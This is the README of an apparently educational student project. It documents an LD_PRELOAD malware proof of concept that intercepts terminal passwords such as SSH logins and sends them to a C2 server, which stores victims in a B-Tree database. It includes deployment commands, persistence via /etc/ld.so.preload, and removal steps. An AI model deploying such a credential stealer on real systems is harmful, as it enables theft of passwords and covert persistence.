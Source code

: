 # 🐍 Projet Malware LD_PRELOAD + Serveur C2 avec Base B-Tree (ESGI 3SIJ)

## 👥 Auteurs

- **Angelov Onur**
- **Slimani Anis**

---

## 🧠 Description du projet

Ce projet est une preuve de concept (POC) de malware utilisant la technique `LD_PRELOAD`. Il permet :

- l’interception de mots de passe saisis dans le terminal (ex : SSH),
- l’exfiltration vers un serveur distant C2,
- l’enregistrement persistant dans une base de données en **C** utilisant une structure en **B-Tree**.

---

## 🚀 Clonage du projet

```bash
git clone https://github.com/Runo76/CC1-DATABASE-ESGI
cd CC1-DATABASE-ESGI
```

---

## 📁 Structure du projet

```text
CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── add_to_ldso.sh        # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

Installer le serveur SSH :

```bash
sudo apt update
sudo apt install openssh-server
```

Changer le port SSH (optionnel, exemple : `Port 5555`), puis redémarrer :

```bash
sudo nano /etc/ssh/sshd_config
sudo systemctl enable ssh
sudo systemctl start ssh
```

### 🔧 Compilation du serveur et de la base

**Terminal 1 – Compilation de la base BTree:**

```bash
cd BTreeDB
make clean
make
```

**Terminal 2 – Compilation du serveur:**

```bash
cd server
make clean
make
```

### 🚀 Lancement du serveur C2

```bash
./server
```

Le serveur écoute sur le port `5555`. Il reçoit :

- `register <hostname> <password>` → inséré dans la base
- `log <hostname> <commande>` → affiché dans le terminal

---

## 💻 VM 2 – Malware LD_PRELOAD (192.168.1.15)

### 🛠️ Prérequis

```bash
sudo apt update
sudo apt install openssh-server
```

### ⚙️ Configuration du malware

Dans le fichier `send_to_c2.c`, modifier :

```c
#define C2_IP "192.168.1.20"
#define C2_PORT 5555
```

---

### 🔧 Compilation et injection automatique

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

> Ce script ajoute le chemin absolu de `malware.so` dans `/etc/ld.so.preload`.

---

## 🐚 Fonctionnalités du malware

| Fonction                        | Description                                                                                 |
|---------------------------------|---------------------------------------------------------------------------------------------|
| 🔑 Exfiltration de mot de passe | Intercepte les entrées `password:` dans un terminal                                         |
| 📦 Envoi vers serveur C2        | Envoie les credentials avec : `register <hostname> <password>`                             |
| 🚫 Blocage fichiers sensibles   | Bloque l'accès à `/etc/passwd`, `/etc/shadow` (via `open()`) même en `sudo`                |
| 💾 Persistance en B-Tree        | Enregistrement dans `database.db` avec un ID unique                                         |
| 🧠 Injection SSH testable       | Exemple : `LD_PRELOAD=./malware.so ssh user@192.168.1.xx`                                  |
| 🔁 Injection automatique        | Ajout dans `/etc/ld.so.preload` pour persistance même après reboot                         |

---

## 📊 Vérification de la base (sur la VM C2)

```bash
cd BTreeDB
./db
```

Lancer la commande dans la CLI :

```
select
Autre commande disponible detaillé dans le README.md du dossier BTreeDB
```

> Résultat exemple :
```
(1, anisdebian, 1478)
(2, onur, 1234)
```

---

## 🧪 Exemple de test complet

1. **Lancer le serveur sur la VM 1** :

```bash
(Après compilation db et server)
cd server
./server
```

2. **Sur la VM 2 (malware)** :

```bash
cd LD_PRELOAD/malware
make
chmod +x add_to_ldso.sh
sudo ./add_to_ldso.sh
```

3. **Effectuer une commande avec mot de passe :**

```bash
LD_PRELOAD=./malware.so ssh user@192.168.1.xx
```

> Le mot de passe sera intercepté et envoyé au serveur.

4. **Vérifier dans la base (VM1) :**

```bash
cd BTreeDB
./db
> select
```

---

## ❌ Désactivation du malware

```bash
sudo rm /etc/ld.so.preload
```

---

## 📎 Remarques

- Le fichier `database.db` est mis à jour automatiquement à chaque nouvelle victime.
- Le projet fonctionne dans un environnement contrôlé (POC pédagogique).
